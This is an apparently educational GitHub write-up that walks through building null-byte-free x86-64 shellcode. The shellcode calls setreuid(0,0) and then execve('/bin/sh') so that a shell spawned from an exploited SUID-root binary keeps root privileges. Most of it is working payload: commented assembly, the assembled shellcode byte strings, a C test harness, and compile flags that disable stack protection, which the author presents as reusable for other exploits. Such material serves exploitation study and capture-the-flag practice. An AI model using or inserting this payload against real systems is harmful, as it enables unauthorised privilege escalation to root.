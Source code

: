 # Creating a setreuid(0,0) execve("/bin/sh") shellcode

# Introduction
I was sitting the other day, struggling with getting a root shell on a challenge. The concept of the challenge was simple. You got SSH credentials and there was a binary file owned by root, with the SUID bit set.

If you just do an execve("/bin/sh") on this binary, your shell will just drop privileges and you will end up with a normal user shell.

Calling setuid(0) did absolutely nothing for me and I still ended up with a normal user shell.

Although this challenge wasn't quite intended to be solved by getting a root shell. I was determined to do so and found out that you can call execve on /bin/sh with the -p parameter. And I created an exploit that did exactly this.

After discussing my overly complicated exploit with a friend, it turned out that I had gotten the idea completely wrong.

To keep privileges in the shell you just need to make sure that the uid is set to 0 and the euid is set to 0.

I looked around on http://shell-storm.org/shellcode/ and realized that although there are shellcodes which call /bin/sh with setuid(0). There are none which call /bin/sh with both setuid(0) and seteuid(0). They do however exist for ash, bash etc..

So I decided that I would like to write my own

# Writing the shell code
I decided to write just the execve("/bin/sh") part first, as I have done this before.

This is what I ended up with:

```C
xor rax, rax //Empty rax register
add rax, 0x3b //Move in execve byte
xor rsi, rsi // empty rsi register
xor rdx,rdx //empty rdx register
mov rbx, 0x68732f6e69622f2f //move "//bin/sh" into rbx
shr rbx, 8 //Change "//bin/sh" to "/bin/sh"
push rbx //Push /bin/sh onto the stack
mov rdi, rsp // move the pointer to /bin/sh on the stack into rdi
syscall //Call it
```
I use https://defuse.ca/online-x86-assembler.htm#disassembly to turn my assembly into shellcode which gives me:
```
\x48\x31\xC0\x48\x83\xC0\x3B\x48\x31\xF6\x48\x31\xD2\x48\xBB\x2F\x2F\x62\x69\x6E\x2F\x73\x68\x48\xC1\xEB\x08\x53\x48\x89\xE7\x0F\x05
```
I got what I need to set the different registers to from the following syscall table: https://filippo.io/linux-syscall-table/

A couple of things to note about the shellcode:
1) I only push to the stack once. I like to push as little as possible to the stack, in case my stack pointer will be on top of my executable code (this can happen if you sigret for example)

2) I empty all the registers, even though it might be initialized to 0 when I jump on the stack. This makes the shellcode versatile and makes it able to be used for other exploits as well.

3) There are no null bytes in the shellcode. Again this makes it way more versatile as a lot of input functions read until they receive a null byte.

I then decided to test my shellcode. I didn't have a copy of the old binary file laying around so I decided to create a test binary which just executes my shellcode for me

I can not take credit for the testing code. The code is taken from https://gist.github.com/securitytube/5318838 where I've only done slight modifications:

```C
#include<stdio.h>
#include<string.h>


int main(void)
{
	unsigned char code[] = "\x48\x31\xC0\x48\x83\xC0\x3B\x48\x31\xF6\x48\x31\xD2\x48\xBB\x2F\x2F\x62\x69\x6E\x2F\x73\x68\x48\xC1\xEB\x08\x53\x48\x89\xE7\x0F\x05";
  printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```
Modifications are:

1) Moving code string inside the main loop to make sure it's on the stack instead of in a section for global variable in the compiled binary

2) Changing the char code to my own payload

I then compiled it with:
```
gcc shellcodetester.c -o test1 -fno-stack-protector -z execstack -no-pie
```
And ran the following linux commands on the compiled binary to give it suid bit and make it owned by root:

```bash
sudo chown 0:0 ./test1
sudo chmod u+s ./test1
```

Running the binary we get a shell but only with normal user privileges:

![shellrun1.png](https://github.com/Mymaqn/roadtopwn/blob/main/shellcode/Creating_reuid_execve_shellcode/shellrun1.png?raw=true)

Now that we have normal working shellcode time to use setuid(0) and seteuid(0)

Looking up the man page of seteuid you will see the following:

```
Under libc4, libc5 and glibc 2.0 seteuid(euid) is equivalent to setreuid(-1, euid) and hence may change the saved set-user-ID. Under glibc 2.1 and later it is equivalent to setresuid(-1, euid, -1) and hence does not change the saved set-user-ID. Analogous remarks hold for setegid(), with the difference that the change in implementation from setregid(-1, egid) to setresgid(-1, egid, -1) occurred in glibc 2.2 or 2.3 (dependeing on the hardware architecture).
```

This means that we do not have a specific syscall to seteuid but a syscall to setreuid(ruid,euid)

The good part about this is that setreuid also allows us to set the user id at the same time. So we only need to do one syscall for setting everything instead of two.

So all we need to do is call setreuid(0,0) since we want to set our user to be root.

Again I used the previously mentioned [site](https://defuse.ca/online-x86-assembler.htm#disassembly) for assembling my code and the [syscall](https://filippo.io/linux-syscall-table/) lookup table to see what values I should set the registers to.

```C
xor rax, rax //set rax to 0
add rax, 0x71 //setreuid byte
xor rdi, rdi //ruid
xor rsi, rsi //euid
syscall //call it reuid(0,0)
```

Then I smacked both of my codes together:
```C
xor rax, rax //set rax to 0
add rax, 0x71 //setreuid byte
xor rdi, rdi //ruid
xor rsi, rsi //euid
syscall //call it reuid(0,0)
xor rax, rax //Empty rax register
add rax, 0x3b //Move in execve byte
xor rsi, rsi // empty rsi register
xor rdx,rdx //empty rdx register
mov rbx, 0x68732f6e69622f2f //move "//bin/sh" into rbx
shr rbx, 8 //Change "//bin/sh" to "/bin/sh"
push rbx //Push /bin/sh onto the stack
mov rdi, rsp // move the pointer to /bin/sh on the stack into rdi
syscall //Call it execve("/bin/sh",0,0)
```

Assembled char code looks like this:
```
\x48\x31\xC0\x48\x83\xC0\x71\x48\x31\xFF\x48\x31\xF6\x0F\x05\x48\x31\xC0\x48\x83\xC0\x3B\x48\x31\xF6\x48\x31\xD2\x48\xBB\x2F\x2F\x62\x69\x6E\x2F\x73\x68\x48\xC1\xEB\x08\x53\x48\x89\xE7\x0F\x05
```

Running the shellcode tester with the newly generated char code then gives us a root shell:

![shellrun2.png](https://github.com/Mymaqn/roadtopwn/blob/main/shellcode/Creating_reuid_execve_shellcode/shellrun2.png?raw=true)

Bear in mind that I did not set the group id as it's not needed for the root privileges. But the group id can be set in the same manner as setreuid was, just using setregid instead.

Hope you learnt as much as I did from this :)

